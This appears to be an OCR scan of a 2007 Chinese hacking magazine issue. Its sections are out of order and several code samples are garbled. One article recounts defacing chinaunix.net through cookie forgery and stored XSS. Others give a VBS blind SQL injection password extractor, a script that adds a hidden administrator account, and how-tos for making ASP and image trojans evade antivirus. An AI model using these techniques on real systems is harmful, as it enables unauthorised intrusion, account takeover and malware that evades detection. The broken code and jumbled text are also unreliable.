先分析这个网站，站点服务器肯定都是 Linux 的，系统上去过是肯定不行的了，那么从脚本吧！打开主站一看，基本没啥动态的地方，全是其他分站在首页的连接，生成的静态，有点难搞！

打开脚本扫描器 Google，输入：`php? site:chinaunix.net -bbs`。这个命令的含义是搜索 chinaunix.net 域名下的 php 动态脚本，并且去掉 bbs 下的内容。因为 bbs 本身就很复杂，咱没工夫从那入手，嘿嘿，信息找到不少呢！Google 真是两款好用的扫描器，如图 1。然后结合主站上的一些项目连接就能大致了解这些站点了，还可以根据自己的需要在指定的地方让 Google 详细搜索。


找到不少分站之后俺小心地 ping 了下，呵呵，果然在一个段内，IP 还是连续的。看到这里有人会说旁注了，不过不一样哦，接着看。

一些分站的确有很多传递参数的地方，但是一明显过的过滤都很严谨，看来明显点的参数，如地址栏里的东西是没希望了，POST 的东西又一般在 php 的 GPC 保护之下，有点难搞……搞了半天，有点想放弃了，即使搞到一个 shell 也不一定能提权，提权也不一定能哦。

中午去吃了个饭，一路上挺郁闷的，因为这些搞系统的都挺牛的，以前报告过漏洞，他们问我是不是拿 nbsi 扫的，对搞脚本的实在是不屑一顾啊。回来继续想，看到首页花花绿绿的连接，既然系统上的旁注没希望，我们搞脚本上的旁注如何？

前段时间一些站点被挂马就是因为自己的合作伙伴被人搞下，而自己的页面有合作伙伴的信息造成的，这里我找不到合作伙伴的信息（合作伙伴估计也挺难搞的），那它自己的分站总有吧，看屏幕上的那些信息就知道，如图 2。呵呵，总有一些薄弱的地方吧！如果我们能修改这些分站数据库里的信息，而首页如果是同步修改的话，那信息不就改了吗？如果这些信息没有过滤好不就可以搞 js 上去了么？

我瞄上了一个 job 的分站，因为首页有他的信息连接，如果我提交的东西可以上首页就好啦！另外我觉得这里的参数应该比较多，因为功能也比较复杂嘛！先注册个用户先，上去之后一顿审查参数，搞注射，甚至发了自己的信息，但是提交的信息没有上主站，应该是有个后台的地


实战中游刃有余！（如有问题可以到 http://linx2008.5d6d.com/ 和我讨论）

> 【参考资料：】

《Advanced SQL Injection In Oracle Databases》——Argeniss

《Hackproofing Oracle Application Server》——David Litchfield

《oracle-security》——pentest

[文章中提到的参考资料已打包在本期光盘]

> 编辑点评：

文章讲得很系统，从来没有这方面知识的菜鸟相信也会看得懂，可以在实践操作中照猫画虎。另外，网上最近也出现了几篇不错的入侵 oracle 的文章，像《入侵 oracle 数据库的一些心得》和《ART OF WEB-SQL-INJECTION 第 2 卷 ORACLE 篇》，大家可以搜索到，结合这篇文章一起看，会对 oracle 注入有一个大概的了解了。

方让人控制的。在根目录下加个 /admin/，呵呵，猜对了！好，搞到管理员的密码或者身份就 OK 啦！目标确定，于是又是疯狂地找注射啊，可是参数还是控制比较严密。

看来搞注射有难度，自己提交的信息又上不了主页，那有没有其他的，如 XSS 呢？于是去实验了下，注册一个企业用户，发布一个职位，包含了 HTML 代码，呵呵，顺利执行，如图 3。看来如果能搞到首页，黑掉的成功率也是很高的哦！继续努力！停下来想想，该怎么做！可以用 XSS 搞到管理员的登录信息然后进后台哦！但是看了半天，也不敢保证管理员会什么时候来看，也不知道后台有没有绑定 IP。

另外的一个方法就是搞到首页显示的那个用户的账户，进去把职位信息 Rootkit 掉，呵呵！这样首页显示的就是我们的 js 代码了。大致方向定了，于是又是一顿疯狂地找注射，我修改密码的逻辑，找……结果都不行！这个时候我想是不是有些逻辑上的错误，如允许编辑别人的职位呢？测试一下，弹个框说这个不属于你，失败！肯定是做过验证了，那他是如何验证我们的信息的呢？GET 是不可能，POST 也不可能，那就只能是 COOKIE 了。把 POST 过去的包抓下来一看，发现 COOKIE 里的东西并不多！如图 4，有 PASS 肯定是密码了，而且密码只是 md5 加密的，还有个名字，还有个 id 就没了……呵呵，如果这三个没有绑定的话就可能有搞头了哦！试试，将 id 改成别的用户，如图 4，然后访问，HOHO，出来的是别的用户的职位信息了，如图 5。嘿嘿，修改 COOKIE 之后可以直接操作他们的信息了！去主页看看有啥可以更新的，找到一个哦！现在就是去写 js 代码了！
这里 js 代码也有限制，不能太长，不过黑个站够啦！大概是 30 个字符左右，呵呵！挑选了半天的 exploit，最后我用的代码如下：`<body onload=document.write("F4ck")>`，短小精悍哪，哈哈！这样当访问的时候就会重写当前页面了！呵呵，访问 job.chinaunix.net，如图 6，好，测试成功！兴冲冲地到首页上去看了下，闷，根本没有同步更新……奇怪，不可能人为一个一个生成的啊？在艰难的郁闷当中过了不久，发现首页有点变样了，哈哈！原来是有定时更新的，不错哦！不过页面并没有重写，代码的确写到主页上了，如图 7，GOOD，找出适当的代码就可以黑啦！
整个过程也是相当巧的，不只是网络可以旁注，站点的结构使得他们的分站之间也有各样的联系，而这种联系导致了脚本的旁注变得可能，我这样的脚本小子都可以控制首页，你们真的那么安全么？呵呵！Just For Fun :)


### 编辑点评：

cookies 欺骗 + js 跨站，黑掉了一个大站，这也是相当可怕的一件事情。不过这个“js 跨站”可真是“跨站”呀。这让我想到了以前有人挂马的方法，入侵不了主站就入侵主站上的广告之类的链接，更改 js 后从而也可以成功在主站上挂马。


### 高手专栏开栏语：

编辑了很多期的西线无战事栏目，有个突出的感觉是大家都各写各的，作者也是想到什么就写什么，随心所欲。虽然每个作者都有自己的风格，不同样的入侵技巧也会呈现。但是这样栏目风格难以定位，也不便读者归纳收集。正逢黑手改版，我和土豆老大商量了一下，为何不设一个专栏呢？找一个牛人来写他的入侵渗透技巧，给他一个连载的机会，给读者更多的阅读愉悦。不过这样又会出现另一个问题，再牛的人，他的技术水平也会慢慢被杂志榨干。不如给更多的牛牛和投稿者来个命题作文吧，就像论坛上讨论某个专题一样，大家针对这一专题来写同样的文章，我想这是一个好的主意。我们会在连续同等命题的作文中，评选出读者最喜欢的作者和最认可的文章，给其双倍或更多倍的稿酬。从 10 月份开始，命题作文就是《VBS 在入侵渗透中的应用》，这一期就先由我和 NetPath 来个抛砖引玉，共同写了两篇 VBS 方面的文章，以后的几期中我们将期望有更多的投稿者针对这一专栏写同样的命题文章，读者拭目以待。如果这一次的命题在几期连载结束后，新的命题我们会提前在 BBS、杂志上公布，欢迎大家踊跃投稿。

# 谈 VBS 在 Hacking 中的作用

[高手专栏]
Netpath

# 高手专栏

# 黑客文集安全手册

平常我们遇到有注入漏洞一类的网站大部分都是用 NBSI 组件，请确保您机器上存在这两个组件！（默认系统自带，但也有去年 ADODB.Stream 网页木马的事件，很多机器的 ADODB.Stream 组件被删除，所以写此注入脚本时，请保证该组件可以使用。）代码及详细注释如下：

Or 阿D 一类的注射工具，有的站点的注射点藏得很隐密，或者说注射语句比较特殊。如果用于手工去注射的话，费时又费力！但自己写针对性好的工具的话，对一些刚入门不久或不会编程的朋友来说，实在是一件很痛苦的事情。因此今天 NBSI 这篇详解的对象就是针对使用简单的 VBS 脚本技术来进行所谓的注射工具。在继续这篇文章之前，我先大概假设此时您已经学会了 VBS 脚本的基础知识以及基本的 SQL Inject 知识。

首先，我们先来看看一段有漏洞的代码。（此代码摘自“网盟网上购物系统试用版 v3.2”的 Getpwd2.asp 的片段）：

```vb
' BTW,此资源为攻击者 Trace 在先发现并提供测试的，在此表示感谢
<!--#include file="conn.asp" -->
<!--#include file="config.asp" -->
<%
username=request.form("username")
set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from [user] where username='"&username&"'"
rs.open sql,conn,1,1
If rs,eof Then
%
已知管理员表为 admin 密码字段为 password
```

有经验的朋友可以很清楚地看到第 6 行的 SQL 语句也没有经过任何过滤的 Username 变量，直接提交执行了，这正是一个经典的 SQL Inject 漏洞。那么我们如何去利用这个漏洞呢？

由于 username 变量是用 request.form 获取的，而我们知道 request.form 只接受 POST 提交上来的数据，因此我们不能像往往一样构造语句如：

```text
http://127.0.0.1/getpwd2.asp?username=' or 0<> (select count(*) from admin) and '1'='1
```

URL 地址栏输入的话，由于是 GET 提交数据，Getpwd2.asp 是不会接收数据的。

看到这，您或许会说，那用 NBSI 的 POST 提交功能呢？这里就描述通过 http://127.0.0.1/getpwd2.asp?username= 直接入 NBSI 地址栏，使用 POST 提交，NBSI 会说“注入破解失败”（图 1）。


由于语句的关系，NBSI 无法帮我们完成任务。阿D 就不用说了，全用 GET 也无法帮我们完成任务。

现在我们再试下手工注射！

我们将语句 `' or 0<> (select count(*) from admin) and '1'='1` 填入 getpwd.asp 的表单中，如图 2、图 3 所示。返回正确提示，则说明我们注射成功。


OK，操作的环境已经大体分析清楚了，下面我们开始进入主题。VBS 的注射脚本需要用到 XmlHttp 组件，和 ADODB.Stream 组件，请确保您机器上存在这两个组件！

```vb
On error resume next
if (case (right(wscript.fullname,11))="wscript.exe") then
  wscript.echo "Execute it under the cmd.exe!Plz Thx!"
  wscript.quit
end if
'//上面的几句是判断脚本执行程序是否为 wscript.exe，如果是则提示
'对于到 CMD 下执行
URL=case(trim(wscript.arguments(0)))
'//请直接把参数按着网页端地址以及转换成全小写
RightW = "这个用户没用注册"
'//这个是定义判断字符对应看类似的关键字
if url <> "" then
  '将密码管理表
  data = "' or 0<> (select count(*) from admin) and '1'='1"
  GetHTTPPage(url)
  if len(GetHTTPPage(url)) < 5 then
    wscript.echo "Error...Please checking the url!"
    wscript.quit
  end if
  '//上面这个语句，主要是判断数据库表是否存在，然后判断长度是否多于5。
  '如果把提交的 URL 有问题，需重新检查是否有注释。
  if InStr(GetHTTPPage(url), RightW) = 0 then
    wscript.echo "Table name 'admin' find"
  else
    wscript.echo "Not found table name ... exit."
    wscript.quit
  end if
  '//如果发现关键字，则该表名未被正确设定，则退出。
  '精准密码字段
  data = "' and 0<>(select count(*) from admin) and '1'='1"
  if InStr(GetHTTPPage(url), RightW) = 0 then
    wscript.echo "The column name 'password' find"
  else
    wscript.echo "Not found column name ... exit."
    wscript.quit
  end if
  '//猜解密码字段
  wscript.echo "Guessing..."
  pwd = ""
  strings = "0123456789abcdef"
  For i = 1 To 16 Step 1
    wscript.echo "Guessing" No.
    For k = 1 To Len(strings) Step 1
      data = "' and 1=0 and 1=(select ascii(mid(password,"&i&",1)) from admin where adminid=4) and '1'='1"
      GetHTTPPage(url)
      if InStr(GetHTTPPage(url), RightW) = 0 then
        pwd = pwd&Mid(strings,k,1)
        Exit For
      End If
    Next
  Next
wscript.echo "Guessing over!!"
```

图 1

图 2

图 3

FROM-HACKER 301

# 注安全观察者笔记 2007.10 ->【高手专栏】

If error Then

Wscript.echo "error :" & Error.Description
Error.Clear
Else
Wscript.echo "Password is" & pwd
End If

//输出已经编解码成功的密码
Else
Wscript.echo "______________________________"
Wscript.echo "e.g. cscript getpass.vbs http://127.0.0.1"
"/getpwd2.asp".
End If

//以下是过滤的POST提交函数
//用ADODB.Stream转换编码,速度比较快,对于反调试器恶劣的站点比较有优势！

Function GetHTTPPage(url)
    Dim XmlHttp
    Set XmlHttp = CreateObject("Msxml2.XMLHTTP")
    XmlHttp.open "POST", url, False
    xmlHttp.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
    XmlHttp.send("username=" & data)
    If XmlHttp.readystate <> 4 Then Exit Function
    GetHTTPPage = Byte2Str(XmlHttp.responsebody)
    Set XmlHttp = Nothing
    If err.number <> 0 Then err.Clear
End Function

Function Byte2Str(vin)
    Dim BytesStream, StringReturn
    Set BytesStream = CreateObject("ADODB.Stream")
    BytesStream.Type = 2
    BytesStream.Open
    BytesStream.WriteText vin

    BytesStream.Position = 0
    BytesStream.Charset = "GB2312"
    BytesStream.Position = 2
    StringReturn = BytesStream.ReadText
    BytesStream.Close
    Set BytesStream = Nothing
    Byte2Str = StringReturn
End Function

注意事项：要提交的SQL语句，空格需要用%替换，否则在有的机器上无法编译！

以上就是我们专门针对性打造的注册工具了。
使用方法也很简单，在CMD下执行

Cscript getpass.vbs http://127.0.0.1/getpwd2.asp 即可！

怎么样？是不是很简单呢？

您就这样去验证，为什么没给管理员的用户名字段和相关ID呢？
嗯，呵呵，这个就能太容易作业吧。

您可以从添加如下功能：
- 自动判断管理员的用户名字段
- 自动判断管理员的用户名所在的有效ID值
- 可猜解指定的ID。
- 更深入的过滤及检测URL是否有效。
多说无益……行动起来呀！Go Go Go----开始打造你自己的注册程序吧！

【文字里伪代码 getpass.vbs 已改成本文摘录】


set objService = GetObject("IIS://Localhost/W3SVC")
For Each objw In objService
    If IsNumeric(objw.Name) Then
        Set vServerName = objw.ServerComment
        Set vServerSite = GetObject("IIS://Localhost/W3SVC/" & objw.Name)
        ' /vRoot
        ' ListAllWeb = ListAllWeb & objw.Name & String(25-Len(objw.Name), " ")
        & objw.ServerComment & " [ " & weSite.Path.8 & "]" & vbCrLf
        If
    End If
Next
WScript.Echo ListAllWeb
Set objService = Nothing
WScript.Quit

运行 cscript 2.vbs 后，就会详细列出 IIS 里的站点 ID、描

set wsnetwork = CreateObject("WSCIPT.NETWORK")
os = "WinNT://" & wsnetwork.ComputerName

set ob = GetObject("os")
' 得到 adsi 接口,绑定
Set o = GetObject("WinNT://Administrators,group") ' 属性,admin组
Set ob = GetObject("user", "lex") ' 设为用户
Set ob.Password = "123456" ' 设置密码
Set obInfo ' 保存
Set of = GetObject("os&/lcx", ' 得到用户
oe.add os&/lcx *

这段代码如果保存为1.vbs,在cmd下运行的话,(格式为：
'cscript 1.vbs),会在当前系统中创建一个名字为lcx,密码为123456的管理员。当然,你可以再编写本来修改里边的变量 lcx 和 123456,改成你喜欢的名字和密码值。

- 二、用vbs来列虚拟主机的物理目录

有时若运维人员较少，拿到系统权限后，面对上百个虚拟主机，怎样才能更快的找到我们目标的物理目录呢？一个好一点的办法，便是用系统自带的adsiutil.vbs吧,以最简单但效率较高的脚本，我们试来看这个脚本吧，这段简单的代码，供参考。

- 一、用VBS来加管理员及账号

经常碰到有人在论坛上讨论，在注入过程中明明有了sa账号,但是由于 net.exe 和 net1.exe 被限制，或者其原因，总是加不了管理员账号。VBS在这方面却是(adsi) 部分有一个winnt对象，可以用来管理本地资源，可以用它不依赖cmd等命令来增加一个管理员，详细代码如下：

Set oBsService = GetObject("IIS://Localhost/W3SVC")
For Each objw In obService
  If IsNumeric(objw.Name) Then
    Set vServerName = objw.ServerComment
    Set vServerSite = GetObject("IIS://Localhost/W3SVC/" & objw.Name)
    ' /vRoot
    ' ListAllWeb = ListAllWeb & objw.Name & String(25-Len(objw.Name), " ")
    & objw.ServerComment & " [ " & weSite.Path & "]" & vbCrLf
  End If
Next
WScript.Echo ListAllWeb
Set objService = Nothing
WScript.Quit

302 ENHACKERS

# ASP 木马免杀总结

Tommie (C, R, S, T)

从本文你可以学习到：

ASP 木马的几种方法总结和实践

## 前言

我有感于有很多朋友对于字符型的木马总感觉望到迷茫，又受到免杀细小编的创作“圣旨”，所以写了这篇文章来阐述木冰娃之中的种种方法。再加上互联网国际的木马防范也日益旺盛，比如：江民、瑞星等。搞得人心惶惶，asp 马还处在服务很不易见的状态里。还有一个叫什么“雷客网 ASP 站长安全助手”……

## 杀软篇

## 一、加密

这个算是一个比较老的方法了，至今还是比较实用。这里以微软的加密方式为例做这次免杀的对象，首先运行 AspEnCoder，如图1。这里我们最好明白的是“MSSE”方式进行加密，类型选择“asp”，记事本方式打开 asp 木马，然后全选代码复制进去，“加密”，如图2所示。很显然，这种是基于 VBScript.Encode 方式进行加密的，结构简单。


## 二、捆绑

不一定 PE 文件才有捆绑技术，其实字符文件也有。首先准备一个有用文件和一个恶意代码。先运行 asp 图片木马生成器，将 asp.asp 及 jpg.jpg 改到该程序所在目录，填上文件名后如图5所示。点击“生成图片木马”就会在同目录下生成一个 aspmuma.gif 文件，然后用瑞星进行查杀，如图6。

## 三、快速找到内网域的主服务器

面对域结构的内网，可能好多小菜没有经验如何去渗透。果你能拿到主域管理员的密码，整个内网你就可以自由穿行了。主域管理器一般都是比较重要的机器，如果能绕过去中间的一台或几台，放个密码记录器就好。主域服务器当然是其中最重要的一台了，如在域主机上做漏洞利用时如果有一个办法呢？dos 命令 net group "domain admins" /domain 可以作为一个判断的标准，不过 vbs 也可以做到的……

## 三、文件头劫镖

上面两种方法比较老了，现在介绍一种新颖点的。在2007年5月的《黑客手册》里，马骏介绍了bbsxp程序的文件头劫镖上传漏洞，相信大家又看了一批bbsxp的网站。那么，文件头可以欺骗服务器输出文件，怎样也不能欺骗杀毒软件进行asp木马免杀呢？告诉大家，答案是肯定的。

首先将其他文件格式的文件头，例如：gif、exe、rar加到asp木马中。如图9。

在这里，我加入的是php脚本的文件头。大家可以用记事本打开文件，得到其文件格式的文件头，如图10。

其中“MZP”就是exe的文件头，然后用十六进制写出，如图11。

如果还欲杀的话，可以换下文件头，或者多个文件头组合进行欺骗，效果会更好。

我的评价：只是通过加入其他文件格式的文件头欺骗杀毒软件免杀，这种方法比较新颖，既不会被杀毒软件查杀，又能把源代码伪装成其他文件。喜欢他们的话，大家可以自行修改为你常用的代码……

## 四、定位

这里用到的是lasey的文本特征码定位器，还是以时钟处为asp为例，选择木马后设置“替换字节”，然后“定位”，在程序……

## 专杀篇

## 一、原理

雷客ASP站长安全助手是基于asp脚本的木马专杀，最新出到1.6版本了，如果想要定位的话，就得从它的源码进行分析，找到相关判断语句的内容，然后再写明针对性地修改asp木马即可。下面来分析admin_scanshell.asp的代码，获取它是通过什么来判断asp木马的。

```asp
server.scripttimeout = 600
dim, filetext = "asp,exe,as,ccx"
dim report, sun, sumfiles, sumfolders '定义变量

sun = 0
sumfiles = 0
sumfolders = 1
requestpath = request.form("path")
if requestpath <> "" then
    if instr(requestpath, "..") then
        response.write("no hack")
        response.end()
    end if
    timer = timer
    if requestpath = "" then
        tmppath = server.mappath("\")
    elseif requestpath = "." then
        tmppath = server.mappath("\")
    else
        tmppath = server.mappath("\" & requestpath)
    end if
    call showallfile(tmppath) '以上代码便是如此获取扫描路径
%>
```

这里可以看出，只扫描asp、cer、asa、cdx的后缀，对于htr和其他被视为是不管的，所以我们上面let文件、htr、jpg都可以通过这个木马了。有经验的朋友可能会说：将asp木马改为jpg或其他格式，然后用include函数包住asp木马，不就行了吗？非也非也，我们继续再往下看看代码……

## 【黑客杂志社】— 2007.10 反安全·黑客手册

母膛登毯，雷密回 ASP 站长安全助手是采用特征码对比验证来判断每个 asp 程序是否为木马的，而且还沿用 include 函数包含的文件，可以算是一个小型的杀毒软件了。由于代码较多，我就抽取一部分进行说明，其他的代码大同小异。其大致的原理为：读取要检测的 asp 程序，分析文件中是否存在 "wscript"、"shell"、"dommybest"、"ipt.shell" 等敏感字符串；若命中则认为可疑。

## 二、实战

如果是 2003 服务器则可以建立一个 "nohack.asp" 之类的文件，然后把 asp 木马改写成 asp 格式进行这个目录，可以透过 2000 服务器可以采用添加程序扩展的方法，这两个都很简单，不会的朋友请见百度。作为木马应当使用特征字符，用记事本打开 asp 木马，‘编辑’——‘替换’。例如将 wscript.shell 改成 wscript、"&" 和 "&"、"&"、application 改好后‘全部替换’，然后再保存下一处特征。

写在最后
最后留下自己的博客：www.deadrain.cn。特征比较多，嫌麻烦的朋友可以到我博客下载，有不明白的地方欢迎来 nohack 论坛或者到我博客留言交流。论坛 id：Tommie。

> 【本文介绍的目标程序和相关工具已收录在本期资料中】

## 编辑点评：

ASP 木马，其实和 EXE 类型的木马一样需要经过免杀处理后，才不会被杀软一下子把光芒给吞噬。一般来讲，它的功能越强，陷阱也就越多，因此在加壳后，怎么改写、替换、混淆都会成为一种常见的免杀技巧。通过学习后，我们也能知道更多的免杀方法。


# 软件个性美化DIY——之免杀补丁的个性打造

从本文你可以学习到：
如何打造个性化的免杀补丁

在《黑客手册》2007年第8期中我们介绍了制作属于自己的通用免杀壳补丁，但是这次做出来的补丁包有趣，今天就教大家美化它的方法。主要的想法是在程序启动之前先弹出个框，框上写着作者的个人信息，对话框上的按钮风格修改；还有就是在原本没有图片的软件界面上手工添加一漂亮的图片。下面开始操作，用到的工具有ODbyDYK v1.0、peditor 1.7、ResHacker 3.5 Plus版、CodeFusion Wizard_3.0 汉化版。

## 一、在程序启动之前先弹出个消息框的美化方法

是不是有过别人的软件启动之后，弹出了一个迷人的消息框，上面写着联系信息、作者的网名等，很漂亮吧，如图1。


拿走上次自己己牵手的软件，经过美化的补丁。我们要重新生成一个补丁做演示，不是原来的那个免杀补丁了，一个空白的随意生成的补丁。主要讲述美化过程，忽略补丁的内在。当然不只这个免杀补丁可以美化，其他的也可以美化的。我们的美化从启动CodeFusion Wizard_3.0汉化版开始，打开图2。


在补丁窗口标题、补丁标识/程序名称、作者/注释那里填写好必要的信息，并且直接在“嵌入图标”那里面把图标也换掉，之后点击“下一步”。无论做什么补丁，最后生成那里一定要去掉“加密可执行文件数据”和“压缩可执行文件”两个选框前面的钩钩，如图3。

生成的补丁如图4，并不是很美观。用ODbyDYK（OD包），进入是刚开始补丁的版本，现在手里就有它，所以就用它了，载入生成的补丁（复制汇编到入口点00405BE8），接着在命令框里输入BPX 回车，查找messagebox这个函数，随便找到一个，接着在命令框里输入00405BE8，接着向下拉，找到大片的空白区域，如图8。

找到下面地址命令窗口里的 call 00401034（这个地址要记住哦，下面要用到的），这个是调用MessageBox这个API。刚刚我们载入程序时找到入口点为00405BE8，接着向下找到大片的空白区域，如图8。


## 黑客手册 2007.10

然后选中一块区域，按鼠标右键，选择二进制——使用 00 填充，如图 9。

在图 9 中选择一个地址，敲 00405E49 处，在这里我鼠标右键——选择二进制——编辑，如图 10。

然后在 ASCII 后面的框里输入中文，也就是图 1 中标题栏上的文字——“黑客手册”中的字，如图 11。

“黑客字”就出现了，这几个汉字转换成了图 11 中的红色部分。

之后记下 00405E5C 这一栏的地址，在这个地址上按照刚才的操作输入图 1 中的“黑客字”用 NSPACK 免杀完补丁，CC 制作，如图 12，输入完毕红色部分。

```
PUSH 0
PUSH 00405E49（刚才记录的地址）
PUSH 00405E5C（也同样记录的地址）
PUSH 0
CALL 00401034（上文说过的要用到的那个函数地址）
JMP 00405E8C
```

好了，用 ODbyDYK 选上所有修改的部分，将文件保存。有的时候会出现“在可执行文件中无法定位数据”，有可能单纯的解决方法是把空白区域选择的向上加一点。当然你做的时候不要完全跟着图示一个地址都不差地去做，不同的文件情况不同。

## 二、补丁界面的美化和手工添加图片

先做准备工作，去《黑客手册》主页上把 LOGO 弄下来，保存为 BMP 格式的，按“1”下。如图 13。

用 ResHacker 载入刚修改完毕的文件，如图 14。

ResHacker 有个好处，它可以直接对对话框进行操作，而且支持多行文本。展开 Dialog 里面资源名称为 100 的，如图 16，对话框直接显示出来了。看着这东西的时候，我最先就放弃自己喜欢的样子改造一下了，你也可以找找自己喜欢的样子，当然里面的许多风格换一换也就像我一样不会，你自己玩吧。

先把下面的三个按钮变成平整，背景框旨在在图上点右键之后选择“编辑控件”，弹出的窗口如图 15。

看到右下方的标签有个“WS_EX_DLGMODALFRAME”，这个已经选中，在上面点一下左键，取消选中，然后点击上方的确定，剩下两个按钮依照此操作。按下来了对话框下面拖下去，把不喜欢的元素控件用鼠标左键拖拽到下面去，再把对话框顶部拉上来，就跟它化妆了一下，如图 16。

另外，不可以删除控件，这样的话有时保存后文件运行时就会出现错误了。接着在对话框上点右键，选编辑对话框，改成如图 17 的方式。


# 图片木马的简单免杀

接着按照图 23 上面的文字操作，在图 2 到第 4 步时，点第 2 可以保存文件名称，不改变大小和像素，最好写成四位数。点图 23 上面的“编译”按钮，点完可以保存文件。注意，图片的尺寸调整就自己来完成吧。附上成品截图，如图 24。本文到这里就完毕了，如果你在学习过程中有问题的话，可以到“黑手”官方论坛发表问题，一起交流，共同进步。


# 图片木马的简单免杀

从本文你可以学习到：如何给图片木马做免杀。

随着互联网技术的不断升级，各种各样的新功能也层出不穷，人们越来越喜欢通过各种各样的图片来表达自己的喜怒哀乐，张扬自己的个性。但是很多人可能都不知道，在这些图片的背后，往往隐藏着一双双恶毒的眼睛，因为现在很多黑客开始利用图片来进行木马后门的传播，虽然这些文件是以图片的形式存在，但同样会触发杀毒软件所查杀，所以今天我就来试着简单地介绍一下图片木马的免杀过程。

## 图片木马的介绍

要想通过图片来进行木马后门的传播，最常用的方法包括系统漏洞、HTML 代码，以及在应用程序的漏洞中使用图片来传输，但是这其中最主要的还是通过 Windows 系统以及应用程序的漏洞来传播，比如 2004 年的“Windows GDI+ JPG 解析组件缓冲区溢出漏洞”、“Windows 图形渲染引擎安全漏洞”、2005 年的“MSN Messenger PNG 图片解析漏洞”以及今年的“Windows 动画光标解析漏洞”等，利用这些图片漏洞，图片木马可以轻松地躲避部分杀毒软件的查杀。

## ## 图 2 用 C32Asm 打开图片生成的图片木马

现在我们先打开对这个图片木马进行免杀修改，虽然这个图片木马的后缀为 JPG 格式，但是实际上这个文件却是一个实实在在的 PE 文件，因此我们完全可以利用一些反汇编工具来进行修改。首先运行 C32Asm 这款程序编辑工具，按照点击“文件”菜单中的“打开”并“选定文件”命令，选择刚刚配置生成的那个图片木马文件，如图 2 所示。接下来，我们只需要对这个文件头进行修改，就可以轻松完成相关的免杀操作。

制到可执行文件，接着在它的子菜单中选择“选择部分”命令，然后在弹出的新窗口中点击鼠标右键，选择其中的“保存文件”命令后进行图片木马的另存为即可，最后我们只需要将后缀改为图片木马以前的后缀名就可以了。图 5 将 0E134DF5 处的代码 NOP 掉

除此以外还有一种文件头的修改方法，就是先将图片木马的后缀改为 EXE，接着利用 OllyDbg 载入图片木马文件本身，接着用鼠标选择该入口点后，点右键，然后点击右键菜单中的“汇编”命令，在弹出的“汇编”窗口将代码“call 0E13536D”改为“pop 0E13536D”即可，如图 5 所示。修改完成后我们来进行文件的保存，选择右键菜单中的“复

现在第一个字节“R”并点击右键中的“填充”命令，然后在弹出的窗口中选择“使用十六进制填充”选项，在填充框中输入“00”后点击“确定”按钮即可，如图 4 所示。最后点击“文件”菜单中的“另存为”命令，将修改后的图片木马另存为一种图片格式的文件即可。除此以外还有一种文件头的修改方法，就是先将图片木马的后缀改为 EXE，接着利用 OllyDbg 载入图片木马文件本身，接着用鼠标选择该入口点后，点右键，然后点击右键菜单中的“汇编”命令，在弹出的“汇编”窗口将代码“call 0E13536D”改为“pop 0E13536D”即可，如图 5 所示。修改完成后我们来进行文件的保存，选择右键菜单中的“复

## ## 图 3 移动文件头

## ## 图 4 填充数据

## ## 小结

到此为止，关于图片木马的免杀就为大家介绍到这里。由于这类图片木马本身的原因，所以它们能使用的免杀方法并不多，因此并不能使用常见的加壳、加花、加密等方法进行免杀。不过还好我们利用现有的方法对其进行了免杀操作，这样就可以避免图片木马杀毒软件的“面对”，如果你有什么好的图片木马的免杀方法也可以和大家一起共享。

## ## 编辑点评：

木马有很多种，熟练掌握各种木马的免杀处理技术，是一项必要的必修课程，本文从图片木马免杀的实战入手，以巧妙的方法介绍了图片木马免杀的关键点。


## ## 图 6 跳转到 00000052


# Linux news

风靡音讯：今天要利用友谊学习 Ubuntu 7.04 还是成形，这也已实现学习一会儿浏览这次的问题。用微软这些年像那么调或者作为…

- 1. Linux 战场扩张至桌面？Red Hat 挑战 Ubuntu
- 2. 网友发现 Linux 版 Skype 读头如配置文件
- 3. Linux 手机市场前景看好增长率将达 75%
- 4. Ubuntu Linux 7.10 版加入图形安全模式

风靡点评：Linux 也不愧邀有绝对安全，而 Skype 的行为多少有点为难，重新感到的不久 Skype 对其服务器噪音事件的解释，并没有公布真正的问题和方案来到了一个漏洞百出的时候，伤逝了日常的心情，风靡点评了。

## 3. Linux 手机市场前景看好增长率将达 75%

据国外媒体报道，ABI 研究公司近日预测，在今后几年，智能手机用 Linux 系统的增长速度将超过微软 Windows Mobile、Symbian 和其它操作系统。ABI 公司将其数据来源于从现在到 2012 年，智能手机开源操作系统的年增长率将增至 75%，Linux 将在高端智能手机市场中占有 31% 的份额。具体份额而言，到 2012 年采用开源操作系统的智能手机中可达 3.31 亿部。

## 4. Ubuntu Linux 7.10 版加入图形安全模式

即将发布的 Ubuntu 7.10(Gutsy) 中有一个 Xorg BulletProof-X 功能，提供了类似 Windows 安全模式的功能：图形安全模式（failsafe mode）停用用户无需再在命令行下手动配置硬件设备。如果 Xorg 启动失败，安全模式将自动运行 Ubuntu 新加入的基于 GTK 的显示配置工具，用户可以方便地进行测试不同的显示设置和选择硬件性能正常运行的合适设置。

# 你的电脑 我的系统
随身携带的 U 盘操作系统
制作及其应用

- 一、齐不秀

目的：
接触 Windows PE [Windows 预安装环境] 并制作 U 盘版的 PE
学习更简化的 U 盘 Linux LIVE CD 的制作方法
了解 U 盘系统在网吧等限制性环境发挥的作用

Windows PE 的全称是 Windows Preinstallation Environment，中文 Microsoft Windows 预安装环境。它是一个基于保护模式下运行的 Windows XP Professional 的工具，只拥有极少但非常核心的 Win32 子系统，这些服务为 Win32 Windows 安装、实现网络共享、自动应答处理程序和实时修复环境所提供。

Windows PE 也许可以创建和格式化硬盘分区，并且可执行 FAT32、NTFS 分区的文件 COPY、删除以及分区格式化等操作。

图 1，按 4 选择 U 盘安装，回车。
图 2，记住看清楚自己的 U 盘盘符。
图 3，啰嗦，慢慢来，胆大心细，没什么做不好的。
图 4，默认就可以了。
图 5，当然点是！
图 6，要注意别选错磁盘，其他的就不用了。
图 7，继续。
图 8，一切正常，按任意键继续。
图 9，这里设置密码。
图 10，确认密码。
图 11，继续。
图 12，开始复制文件，大约需要 3 分钟吧。
图 13，制作成功，可以正常运行。

此时 U 盘 PE 便可以引导启动系统了，这个版本的 PE 带有我们经常使用的软件（QQ、IE、迅雷、Lansse、Finaldata、GHOST、UltraISO、WinRAR……）总之，够我们用了。

